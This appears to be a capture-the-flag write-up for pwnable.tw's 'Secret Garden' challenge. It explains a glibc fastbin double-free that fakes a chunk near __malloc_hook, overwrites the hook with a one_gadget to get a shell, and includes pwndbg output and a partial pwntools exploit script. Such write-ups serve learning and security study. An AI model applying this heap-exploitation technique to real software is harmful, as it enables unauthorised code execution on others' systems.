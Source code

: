 To bypass, just free another chunk before you free the desired chunk again. That leads to double-free bug.

But they also check the size of the chunk before taking it from fastbins. As a result, you can't put ```__free_hook``` address into fastbin :b. Don't be afraid, you can use ```__malloc_hook``` trick.

```
pwndbg> info address __malloc_hook
Symbol "__malloc_hook" is static storage at address 0x7ffff7bc3b10.
pwndbg> x/8gx 0x7ffff7bc3b10 - 0x20
0x7ffff7bc3af0 <_IO_wide_data_0+304>:	0x00007ffff7bc2260	0x0000000000000000
0x7ffff7bc3b00 <__memalign_hook>:	0x00007ffff7885270	0x00007ffff7884e50
0x7ffff7bc3b10 <__malloc_hook>:	0x00007ffff7884c80	0x0000000000000000
0x7ffff7bc3b20 <main_arena>:	0x0000000000000000	0x0000000000000000
```

You can see that, ```__malloc_hook - 0x18``` is null, so if you put ```__malloc_hook - 0x23``` into fastbin, they would assume ```__malloc_hook - 0x23 + 0x8``` is the size, it's 0x7f now, that means its size is 0x70, and metadata is 0xf (```PREV_INUSE, IS_MMAPPED and NON_MAIN_ARENA``` are all marked). Overwrite one_gadget to ```__malloc_hook```, and trigger double-free bug to get the shell, because ```malloc_printerr``` will call ```__malloc_hook```.

### Exploit
```py
from pwn import *

exe = ELF("./secretgarden_patched")
libc = ELF("./libc_64.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
context.log_level = "debug"

def conn():
  if args.LOCAL:
      r = process([exe.path])
      # r = gdb.debug ([exe.path], "b *__libc_start_main+214")
  else:
      r = remote("chall.pwnable.tw", 10203)

  return r

def add_flower (p, size, name, color):
  p.sendafter (b'Your choice : ', b'1')
  p.sendlineafter (b'Length of the name :', size)
  p.sendafter (b'The name of flower :', name)
  p.sendlineafter (b'The color of the flower :', color)
    
def show (p):
  p.sendafter (b'Your choice : ', b'2') 

def remove_flower (p, id):
  p.sendafter (b'Your choice : ', b'3')
  p.sendlineafter (b'Which flower do you want to remove from the garden:', id)

def clean_garden (p):
  p.sendafter (b'Your choice : ', b'4')

def main():
  p = conn()
  add_flower (p, b'1042', b'ndd', b'ndd')
  add_flower (p, b'1042', b'ndd1', b'ndd1')
  remove_flower (p, b'0')
  add_flower (p, b'1000', b'A' * 8, b'ndd')
  show (p)
```